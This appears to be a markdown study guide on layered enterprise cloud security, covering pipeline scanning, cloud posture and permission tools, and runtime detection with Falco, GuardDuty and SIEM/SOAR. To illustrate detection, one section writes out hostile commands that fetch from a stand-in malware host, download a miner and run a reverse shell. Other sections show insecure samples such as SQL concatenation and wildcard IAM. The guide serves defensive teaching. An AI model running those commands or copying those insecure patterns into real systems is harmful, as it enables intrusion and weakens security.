


# Enterprise DevSecOps + CNAPP + Runtime Security Architecture

# 1. Complete Enterprise Security Lifecycle

Modern enterprise cloud security is divided into THREE major phases:

| Phase | Goal |
|---|---|
| Before Deployment | Prevent insecure software |
| After Deployment | Ensure secure cloud posture |
| Runtime Detection | Detect active attacks |

---

# 2. Full Enterprise Security Architecture



---

# 3. PHASE 1 — BEFORE DEPLOYMENT (DevSecOps)

# Goal

Prevent vulnerable software from reaching production.

This phase happens inside:
- CI/CD pipelines
- Pull requests
- Build pipelines

---

# 4. SAST (Static Application Security Testing)

## Purpose
Scan source code before execution.

## Detects
- SQL Injection
- XSS
- Hardcoded secrets
- Insecure coding

## Enterprise Tools
- SonarQube
- Semgrep
- Checkmarx
- Fortify

## Example

Developer writes:

```python
query = "SELECT * FROM users WHERE id=" + user_input
```

SAST detects:
- SQL injection risk

Pipeline fails immediately.

---

# 5. Secrets Scanning

## Purpose
Detect secrets committed into repositories.

## Detects
- AWS keys
- passwords
- tokens
- certificates

## Enterprise Tools
- Gitleaks
- TruffleHog
- GitGuardian

## Example

Developer commits:

```bash
AWS_SECRET_ACCESS_KEY=abc123
```

Pipeline blocks commit.

---

# 6. SCA (Software Composition Analysis)

## Purpose
Detect vulnerable open-source dependencies.

## Detects
- CVEs
- Log4j vulnerabilities
- outdated libraries

## Enterprise Tools
- Snyk
- Mend
- Dependabot
- OWASP Dependency Check

## Example

Application contains:
- vulnerable log4j version

Pipeline blocks release.

---

# 7. IaC Scanning

## Purpose
Scan Terraform/Kubernetes manifests.

## Detects
- public S3 buckets
- open security groups
- unencrypted resources
- wildcard IAM

## Enterprise Tools
- Checkov
- tfsec
- Terrascan

## Example

Terraform contains:

```hcl
cidr_blocks = ["0.0.0.0/0"]
```

Pipeline fails.

---

# 8. Container Image Scanning

## Purpose
Scan Docker/container images.

## Detects
- OS package CVEs
- malware
- vulnerable libraries
- secrets

## Enterprise Tool
- Trivy

## Example

Image contains:
- vulnerable OpenSSL package

Trivy detects critical CVE.

Deployment blocked.

---

# 9. Image Signing

## Purpose
Ensure trusted artifacts.

## Enterprise Tools
- Cosign
- Sigstore
- Notary

## Why Important
Prevents:
- tampered images
- malicious artifacts
- supply-chain attacks

---

# 10. DAST

## Purpose
Runtime application security testing.

## Enterprise Tools
- OWASP ZAP
- Burp Suite
- StackHawk

## Detects
- broken authentication
- runtime API flaws
- insecure endpoints

---

# 11. OPA/Gatekeeper (Preventative Governance)

# Purpose
Prevent dangerous Kubernetes deployments.

## Examples

### Block privileged containers

```yaml
privileged: true
```

OPA denies deployment.

### Enforce CPU/memory limits
### Enforce signed images
### Block latest image tags

---

# 12. PHASE 2 — AFTER DEPLOYMENT (CNAPP/CSPM/CIEM)

# Goal

Ensure cloud environment remains secure AFTER workloads are deployed.

---

# 13. CSPM (Cloud Security Posture Management)

## Purpose
Detect cloud misconfigurations.

## Examples
- public S3 bucket
- open security groups
- public RDS
- unencrypted EBS
- disabled CloudTrail

---

# 14. AWS Config

## Purpose
Continuously evaluate AWS resources.

## Detects
- compliance violations
- configuration drift
- policy violations

## Example

Production RDS becomes public.

AWS Config:
- marks NON_COMPLIANT
- triggers alert

---

# 15. Security Hub

## Purpose
Central security dashboard.

Aggregates findings from:
- Config
- GuardDuty
- Inspector
- Macie
- CNAPP tools

Think of it as:

"Single pane of glass for security findings"

---

# 16. Macie

## Purpose
Sensitive data discovery.

## Detects
- Aadhaar
- PAN
- credit cards
- passwords
- PII

## Example

Developer uploads PAN data to S3.

Macie detects sensitive financial data exposure.

---

# 17. CIEM (Cloud Infrastructure Entitlement Management)

# Purpose
Detect IAM/permission risks.

## Detects
- excessive permissions
- wildcard IAM
- unused permissions
- admin access risks
- risky trust policies

---

# 18. IAM Access Analyzer

## Purpose
Analyze risky permissions.

## Example

Developer role contains:

```json
{
  "Action":"*",
  "Resource":"*"
}
```

Flagged as excessive privilege.

---

# 19. Wiz / Prisma CNAPP Platforms

# Purpose
Unified cloud-native security platform.

Combines:
- CSPM
- CIEM
- CWPP
- Kubernetes security
- attack path analysis

---

# 20. Why Enterprises Use Wiz/Prisma

AWS native tools are fragmented.

Example:
- Config shows public EC2
- Inspector shows CVE
- IAM Analyzer shows admin role

Wiz correlates ALL together.

Example:

Public EC2
+
Critical CVE
+
Admin IAM Role
+
Internet Exposure

= Critical Attack Path

This is advanced CNAPP capability.

---

# 21. PHASE 3 — RUNTIME DETECTION (CWPP)

# Goal

Detect active attacks after workloads are running.

---

# 22. CWPP (Cloud Workload Protection Platform)

# Purpose
Protect workloads during runtime.

Focus:
- EC2 runtime
- Kubernetes runtime
- containers
- Linux kernel activity

---

# 23. Runtime Detection Sources

Runtime tools monitor:

| Source | Example |
|---|---|
| Processes | bash/curl |
| Syscalls | execve() |
| File access | /etc/passwd |
| Network traffic | malware IP |
| DNS | suspicious domains |
| Kubernetes events | privilege escalation |

---

# 24. Falco Runtime Detection

# Purpose
Detect suspicious container behavior.

## Runs As
- Kubernetes DaemonSet

## Monitors
- Linux kernel syscalls
- process execution
- network activity

## Detects
- reverse shells
- crypto miners
- privilege escalation
- malware
- container escape

---

# 25. Example Runtime Attack

Container suddenly executes:

```bash
curl malware.com
wget miner.sh
bash reverse_shell.sh
```

Falco detects:
- abnormal process
- malicious syscall
- suspicious behavior

SOC alerted immediately.

---

# 26. GuardDuty Runtime/Threat Detection

# Purpose
AWS-native threat detection.

## Uses
- VPC Flow Logs
- CloudTrail
- DNS logs
- EKS audit logs

## Detects
- suspicious traffic
- malicious IPs
- IAM abuse
- crypto mining
- unusual API calls

---

# 27. GuardDuty vs Falco

| Capability | GuardDuty | Falco |
|---|---|---|
| AWS-native | Yes | No |
| Agentless mostly | Yes | No |
| Syscall visibility | Limited | Deep |
| Process monitoring | Partial | Excellent |
| Kubernetes runtime | Partial | Excellent |
| Kernel visibility | Weak | Strong |
| Runtime depth | Moderate | Deep |

---

# 28. Why Enterprises Still Use Falco/Prisma/Aqua

Because AWS GuardDuty is:
- cloud-centric
- telemetry-focused

while Falco/Prisma/Aqua are:
- workload-centric
- kernel/runtime-focused

They provide:
- deep runtime telemetry
- syscall monitoring
- process visibility
- container internals

---

# 29. Enterprise Runtime Architecture



---

# 30. SIEM + SOC + SOAR Flow

# SIEM

Central log/security analytics platform.

Examples:
- Splunk
- Sentinel
- QRadar

## Collects
- runtime findings
- GuardDuty alerts
- Falco alerts
- CNAPP findings

---

# 31. SOC (Security Operations Center)

SOC analysts:
- investigate alerts
- validate incidents
- perform triage
- start incident response

---

# 32. SOAR

Security orchestration and automated response.

Examples:
- Cortex XSOAR
- Splunk SOAR

## Automated Actions
- isolate pod
- block IP
- disable IAM user
- quarantine EC2

---

# 33. Complete Enterprise Security Mental Model

# BEFORE Deployment

Goal:

"Do not deploy insecure software"

Tools:
- SAST
- SCA
- Trivy
- Checkov
- DAST

---

# AFTER Deployment

Goal:

"Ensure cloud remains securely configured"

Tools:
- AWS Config
- Security Hub
- Macie
- IAM Analyzer
- Wiz/Prisma

---

# DURING Runtime Attack

Goal:

"Detect and respond to active threats"

Tools:
- GuardDuty
- Falco
- CrowdStrike Falcon
- Aqua
- SIEM
- SOC
- SOAR

---

# 34. Ultimate Enterprise Understanding

Enterprise cloud security is NOT one tool.

It is layered security:

1. DevSecOps Security
2. Preventative Governance
3. Cloud Posture Management
4. Identity Risk Management
5. Runtime Threat Detection
6. SIEM Correlation
7. SOC Investigation
8. SOAR Automation

This layered approach creates:
- defense in depth
- zero-trust cloud security
- enterprise-grade governance
- continuous threat detection
- scalable cloud-native security operations

